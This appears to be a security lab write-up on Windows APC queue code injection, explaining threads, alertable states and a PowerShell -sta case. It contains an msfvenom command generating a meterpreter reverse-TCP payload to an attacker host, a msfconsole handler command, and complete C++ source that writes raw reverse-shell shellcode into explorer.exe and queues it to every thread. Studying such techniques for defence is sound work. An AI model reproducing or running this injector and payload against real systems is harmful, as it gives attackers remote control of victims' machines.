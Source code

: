 # APC Queue Code Injection

This lab looks at the APC \(Asynchronous Procedure Calls\) queue code injection - a well known technique I had not played with in the past.

Some simplified context around threads and APC queues:

* Threads execute code within processes
* Threads can execute code asynchronously by leveraging APC queues
* Each thread has a queue that stores all the APCs
* Application can queue an APC to a given thread \(subject to privileges\)
* When a thread is scheduled, queued APCs get executed
* Disadvantage of this technique is that the malicious program cannot force the victim thread to execute the injected code - the thread to which an APC was queued to, needs to enter/be in an [alertable](apc-queue-code-injection.md#alertable-state) state \(i.e [`SleepEx`](https://msdn.microsoft.com/en-us/library/ms686307%28v=VS.85%29.aspx)\)

## Execution

A high level overview of how this lab works:

* Write a C++ program apcqueue.exe that will:
  * Find explorer.exe process ID
  * Allocate memory in explorer.exe process memory space
  * Write shellcode to that memory location
  * Find all threads in explorer.exe
  * Queue an APC to all those threads. APC points to the shellcode
* Execute the above program
* When threads in explorer.exe get scheduled, our shellcode gets executed
* Rain of meterpreter shells

Let's start by creating a meterpreter shellcode to be injected into the victim process:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-26-111814.png)

I will be injecting the shellcode into `explorer.exe` since there's usually a lot of thread activity going on, so there is a better chance to encounter a thread in an alertable state that will kick off the shellcode. I will find the process I want to inject into with `Process32First` and `Process32Next` calls:

![](../../.gitbook/assets/annotation-2019-05-26-152927.png)

Once explorer PID is found, we need to get a handle to the explorer.exe process and allocate some memory for the shellcode. The shellcode is written to explorer's process memory and additionally, an APC routine, which now points to the shellcode, is declared:

![](../../.gitbook/assets/annotation-2019-05-26-151203.png)

If we compile and execute `apcqueue.exe`, we can indeed see the shellcode gets injected into the process successully:

![](../../.gitbook/assets/annotation-2019-05-26-133126.png)

A quick detour - the below shows a screenshot from the Process Hacker where our malicious program has a handle to explorer.exe - good to know for debugging and troubleshooting:

![](../../.gitbook/assets/annotation-2019-05-26-133312.png)

Back to the code - we can now enumerate all threads of explorer.exe and queue an APC \(points to the shellcode\) to them:

![sleep for some throttling](../../.gitbook/assets/annotation-2019-05-26-151757-1%20%281%29.png)

Switching gears to the attacking machine - let's fire up a multi handler and set an `autorunscript` to migrate meterpreter sessions to some other process before they die with the dying threads:

{% code title="attacker@kali" %}
```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/x64/meterpreter/reverse_tcp; exploit"
set autorunscript post/windows/manage/migrate
```
{% endcode %}

Once the `apcqueue` is compiled and run, a meterpreter session is received - the technique worked:

![](../../.gitbook/assets/annotation-2019-05-26-134126.png)

## States

As mentioned earlier, in order for the APC code injection to work, the thread to which an APC is queued, needs to be in an `alertable` state.

To get a better feel of what this means, I created another project called `alertable` that only did one thing - slept for 60 seconds. The application was sent to sleep using \(note the important second parameter\):

```cpp
DWORD SleepEx(
  DWORD dwMilliseconds,
  BOOL  bAlertable
);
```

Let's put the new project to sleep in both alertable and non-alertable states and see what heppens when an APC is queued to it.

### Alertable State

Let's compile the `alertable.exe` binary with `bAleertable = true` first and then launch the `apcqueue.exe`.

Since `alertable.exe` was in an alertable state, the code got executed immediately and a meterpreter session was established:

![](../../.gitbook/assets/apcqueueinjection.gif)

### Non-Alertable State

Now let's recompile `alertable.exe` with `bAlertable == false` and try again - shellcode does not get executed:

![](../../.gitbook/assets/apcqueueinjection-nonalertable.gif)

## Powershell -sta

An interesting observation is that if you try injecting into powershell.exe which was started with a `-sta` switch \(Single Thread Apartment\), we do not need to spray the APC across all its threads - main thread is enough and gives a reliable shell:

![](../../.gitbook/assets/apc-powershell.gif)

Note that the injected powershell process becomes unresponsive.

## Code

{% code title="apcqueue.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>
#include <vector>

int main()
{
    unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";

    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
    HANDLE victimProcess = NULL;
    PROCESSENTRY32 processEntry = { sizeof(PROCESSENTRY32) };
    THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };
    std::vector<DWORD> threadIds;
    SIZE_T shellSize = sizeof(buf);
    HANDLE threadHandle = NULL;

    if (Process32First(snapshot, &processEntry)) {
        while (_wcsicmp(processEntry.szExeFile, L"explorer.exe") != 0) {
            Process32Next(snapshot, &processEntry);
        }
    }

    victimProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, processEntry.th32ProcessID);
    LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
    WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);

    if (Thread32First(snapshot, &threadEntry)) {
        do {
            if (threadEntry.th32OwnerProcessID == processEntry.th32ProcessID) {
                threadIds.push_back(threadEntry.th32ThreadID);
            }
        } while (Thread32Next(snapshot, &threadEntry));
    }

    for (DWORD threadId : threadIds) {
        threadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
        QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
        Sleep(1000 * 2);
    }

    return 0;
}
```
{% endcode %}

## References

{% embed url="https://blogs.microsoft.co.il/pavely/2017/03/14/injecting-a-dll-without-a-remote-thread/" caption="" %}

{% embed url="http://rinseandrepeatanalysis.blogspot.com/2019/04/early-bird-injection-apc-abuse.html?m=1" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/sync/asynchronous-procedure-calls" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-queueuserapc" caption="" %}

